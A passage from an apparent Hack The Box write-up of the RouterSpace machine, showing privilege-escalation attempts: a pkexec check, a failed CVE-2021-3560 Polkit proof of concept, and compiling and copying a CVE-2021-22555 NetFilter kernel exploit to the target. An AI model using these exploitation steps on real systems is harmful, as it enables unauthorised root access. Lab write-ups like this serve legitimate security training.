     
    
    paul@routerspace:/dev/shm$ which pkexec
    /usr/bin/pkexec
    paul@routerspace:/dev/shm$ ls -l /usr/bin/pkexec 
    -rwxr-xr-x 1 root root 31032 May 26  2021 /usr/bin/pkexec
    

So this is a false positive.

#### PolKit Vuln

In [Paper](/2022/06/18/htb-paper.html#polkit-cve), CVE-2021-3560 was the
intended solution. I’ll use the [same
POC](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation)
here, but it fails:

    
    
    paul@routerspace:/dev/shm$ bash cve-2021-3560.sh 
    
    [!] Username set as : secnigma
    [!] No Custom Timing specified.
    [!] Timing will be detected Automatically
    [!] Force flag not set.
    [!] Vulnerability checking is ENABLED!
    [!] Starting Vulnerability Checks...
    [!] Checking distribution...
    [!] Detected Linux distribution as ubuntu
    [!] Checking if Accountsservice and Gnome-Control-Center is installed
    [x] ERROR: Accounts service and Gnome-Control-Center NOT found!!
    [!]  Aborting Execution!
    

That POC works by adding a new user in the `sudo` group, and it’s failing
because it uses the `Accountsservice` and `Gnome-Control-Center` to do that.
Because that is core to [how the exploit
functions](https://www.hackingarticles.in/linux-privilege-escalation-polkit-
cve-2021-3560/) , there’s not much I can do here.

#### NetFilter

The vulnerability in NetFilter, CVE-2021-22555, says it requires the
`ip_tables` kernel module to be loaded. That is actually present here:

    
    
    paul@routerspace:/dev/shm$ lsmod | grep ip_tables
    ip_tables              32768  9 iptable_filter
    x_tables               40960  11 ip6table_filter,xt_conntrack,iptable_filter,xt_LOG,xt_tcpudp,xt_addrtype,ip6_tables,ipt_REJECT,ip_tables,xt_limit,xt_NFQUEUE
    

I’ll download the POC from the link in the LinPeas output, and compile it and
`scp` it to RouterSpace:

    
    
    oxdf@hacky$ gcc -m32 -static -o cve-2021-22555 cve-2021-22555.c oxdf@hacky$ scp -i ~/keys/ed25519_gen cve-2021-22555 paul@routerspace.htb:/dev/shm/
    cve-2021-22555                  100%  706KB 879.9KB/s   00:00
    